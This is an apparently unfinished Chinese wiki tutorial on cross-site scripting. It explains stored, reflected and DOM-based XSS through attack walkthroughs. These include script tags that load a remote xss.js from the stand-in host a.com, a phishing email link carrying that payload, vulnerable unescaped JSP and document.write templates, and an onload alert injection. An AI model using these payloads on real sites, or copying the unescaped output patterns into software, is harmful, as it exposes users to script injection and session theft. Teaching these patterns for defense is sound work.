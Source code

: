 跨站脚本攻击(XSS - Cross Site Scripting)
==原理==
Web程序将数据直接作为HTML显示（未进行HTML特殊字符转义、script脚本过滤），在浏览器端显示的这些内容的时候，激活其中包含的JavaScript恶意脚本，这些脚本可以用来获取用户敏感信息，追踪用户浏览历史、将用户诱导至其他网站等。

关键点
找到可以注入Script脚本的地方。

==分类==
===Stored XSS Attacks===
风险代码被先持久存储于服务器上（比如：数据库中），然后再读取出来显示到浏览器。比如在博客上发表文章、发表评论。

攻击流程示例：
<ol>
<li>恶意用户A发现某个博客系统B对博文的评论未做严格检查，而允许注入Javascript代码。</li>
<li>恶意用户A找到一个知名度高的一篇访问量大的博文，发表以下评论代码：
<source>
<script src="http://a.com/xss.js"></script>
楼主的帖子实在是写得太好了。文笔流畅,修辞得体,深得魏晋诸朝遗风,
更将唐风宋骨发扬得入木三分,能在有生之年看见楼主的这个帖子。
实在是我三生之幸啊。......
</source>
</li>
<li>博客系统B使用以下方式显示回帖（JSP语法）：
<source>
回帖人：<%=comment.userId %>，回帖内容是：<%= comment.content %>
</source>
</li>
<li>后果：每个读此博文并看到该评论的受害者都会加载并执行其中的恶意代码。</li>
</ol>

===Reflected XSS Attacks===
风险代码并没有被持久存储，而是在服务器端转了一圈之后就直接显示在生成的动态HTML中。
这种攻击方式常被以HTML邮件的方式发送给潜在受害者。

攻击流程示例：
<ol>
<li>恶意用户A搜索、验证并确信某系统B在访问 <code>http://b.com/welcome.do?user=zhang3</code> 时，是以以下方式显示URL中的用户名的（JSP语法）：
<source>
 welcome <%=param["user"] %>!
</source>
</li>
<li>恶意用户A就利用此漏洞，以系统B的名义向多个用户发送包含以下连接的HTML邮件，并诱导用户点击该链接：
<source>
{系统B}温馨提醒您：XXX 想加您好友，请点击
<a href="http://b.com/welcome.do?user=zhang3<script src='http://a.com/xss.js'></script>">此处</a>
进行处理！
</source>
</li>
<li>后果：受害者在阅读该邮件并点击此链接后，在浏览系统B的欢迎画面时，就会加载并执行来自于 a.com 的恶意脚本</li>
</ol>


===DOM Based XSS===
这种方式与 Reflected XSS Attacks 比较相似，但区别在于：在Reflected XSS Attacks 中，有缺陷的系统返回的HTML中本身就已经包含了恶意代码；而在 DOM Based XSS 中，有缺陷的系统返回的HTML中本身并不包含恶意代码，而是通过JavaScript动态修改浏览器中的DOM树，但是JavaScript并没有对输入的内容做安全监察。

也即，在 Reflected XSS Attacks 的攻击流程示例的第二步中的代码替换为以下方式（HTML语法，而非JSP等服务器端脚本语法）：
<source>
 welcome <script>
document.write(document.location.href.substring(document.location.href.indexOf("user=")+5));
</script>!
</source>

与前两种的区别是：前两种最终会将风险代码写在生成HTML中，而这一种是服务器端返回的HTML本身并不包含风险代码，但是其中的JavaScript脚本在动态修改DOM时，未对输出值做充分的安全检查。


注入点
1. 客户端：来自用户输入，却未作安全检查。

<source>
<img src="https://www.owasp.org/skins/monobook/ologo.png" onload="alert('XSS');" >
</source>
2.
2. 服务器端：来自配置文件，却未作安全检查（比如消息模板，头部文件）

DOM Based XSS
  你的程序本身存在一些依赖于来自于客户端的数据并展示，但是对来源数据为做安全检查。



防范方式 


参考：
* [https://www.owasp.org/index.php/Cross-site_Scripting_(XSS) Cross site Scripting ]
* [https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet XSS Filter Evasion Cheat Sheet]

Cross-Site Request Forgery (CSRF)